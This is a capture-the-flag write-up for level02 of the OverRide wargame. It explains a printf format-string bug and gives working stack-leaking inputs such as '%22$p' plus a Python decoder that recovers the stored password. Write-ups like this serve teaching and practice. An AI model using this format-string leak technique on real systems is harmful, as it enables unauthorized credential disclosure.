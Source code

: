 Level02 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```

Level02 rights:
```Shell
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
```

The program ask for a username and a password:
```Shell
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: name
--[ Password: pass
*****************************************
name does not have access!
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows four things:
- the program open the password file and stores it in a buffer
- it store our input in two different buffer
- a format string attack is possible because the buffer storing the username input
is used as a format string by `printf()`.
- the comparison between the password and our input is performed over 40 bytes,
so we can deduce that this is the length of the password.
Since the program stores the password on the stack and that we know its length, we will exploit `printf()` to display it.

Our buffer is the 28th argument of printf
```Shell
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %28$p
--[ Password: 
*****************************************
AAAAAAAA 0x4141414141414141 does not have access!
```

Using Gdb we see three memory allocation:
- the first one of 112 bytes (0x70)
- the second one of 48 bytes (0xa0 - 0x70)
- the third one of 112 bytes (0x110 - 0xa0)
```Shell
(gdb) disas main
[...]
   0x000000000040082c <+24>:    lea    -0x70(%rbp),%rdx
[...]
   0x0000000000400849 <+53>:    lea    -0xa0(%rbp),%rdx
[...]
   0x0000000000400869 <+85>:    lea    -0x110(%rbp),%rdx
[...]
 ```
This corresponds to the three buffer, the buffer of 48 bytes is used to store the password.
Thanks to the disassemble code we know that the second buffer stores the password
and the third one retrieves the username input. There is an offset of 48 bytes beetween them.


Since each address is 8 bytes and that we use %p to print the password, the buffers are
separate by 6 (48 / 8) arguments, and we need to print 5 arguments (40 / 8) to display the entire password.

```Shell
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: 
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

Using a Python script, we will convert these five hexadecimal integers into 8-character
strings, reverse them due to little-endian format, and concatenate them to obtain the final password.
```Python
>>> hex_values = [
...     "756e505234376848",
...     "45414a3561733951",
...     "377a7143574e6758",
...     "354a35686e475873",
...     "48336750664b394d"
... ]
>>> 
>>> result = ''.join(
...     bytes.fromhex(h)[::-1].decode('ascii', errors='ignore') 
...     for h in hex_values
... )
>>> 
>>> print(result)
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```